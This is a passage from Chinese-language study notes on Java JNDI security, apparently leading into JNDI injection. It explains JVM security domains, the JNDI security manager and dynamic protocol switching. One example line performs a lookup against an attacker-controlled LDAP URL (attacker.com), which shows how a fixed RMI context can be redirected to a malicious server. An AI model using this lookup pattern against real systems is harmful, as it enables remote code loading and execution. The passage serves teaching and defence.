> JVM中采用的最新模型见上图，引入了“域”的概念，在不同的域中执行不同的权限。JVM会把所有代码加载到不同的系统域和应用域，系统域专门负责与关键资源进行交互，而应用域则通过系统域的部分代理来对各种需要的资源进行访问，存在于不同域的class文件就具有了当前域的全部权限。
> 
> 关于安全管理机制，可以详细阅读：
> 
> [http://www.ibm.com/developerworks/cn/java/j-lo-javasecurity/](http://www.ibm.com/developerworks/cn/java/j-lo-javasecurity/)
> 

### **JNDI的安全管理器**

这部分在后面绕过高版本JDK限制中也会具体讲到。

> 对于加载远程对象，JDNI有两种不同的安全控制方式，对于Naming Manager来说，相对的安全管理器的规则比较宽泛，但是对JNDI SPI层会按照下面表格中的规则进行控制：
> 
> 
> ![Untitled](JNDI%20attachments/Untitled%204.png)
> 
> 针对以上特性，黑客可能会找到一些特殊场景，利用两者的差异来执行恶意代码
> 

### ****JNDI协议动态转换****

在上面的Demo中，展示了初始化配置JNDI设置时预先指定其上下文环境（RMI、LDAP、CORBA等）

还有一种写法：

```java
Properties env = new Properties();
env.put(Context.INITIAL_CONTEXT_FACTORY, "com.sun.jndi.rmi.registry.RegistryContextFactory");
env.put(Context.PROVIDER_URL, "rmi://localhost:1099");
Context ctx = new InitialContext(env);
```

虽然已经设置了上下文环境为RMI服务，但是在使用lookup()和search()的时候，可以通过URL的格式来转换上下文环境

`Person person = (Person)ctx.lookup("ldap://attacker.com:12345/ou=foo,dc=foobar,dc=com");`
